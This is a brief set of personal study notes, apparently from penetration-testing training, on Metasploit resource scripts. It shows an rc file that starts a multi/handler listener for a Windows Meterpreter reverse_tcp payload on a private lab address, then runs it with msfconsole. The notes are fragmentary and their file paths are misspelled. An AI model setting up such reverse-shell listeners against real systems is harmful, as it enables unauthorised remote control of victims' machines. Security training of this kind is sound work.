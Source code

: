 

- rc scripts will make for example tasks like listener faster 
- la -al ~usr/share/etaspliot framework/script/respurce/
- vim handler.rc
```
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.10.5
set LPORT 1234
run
```
- msfconsole -r handler.rc (it will execute the script which holds our commands)
- we can make another script to run tcp scan on ports
- 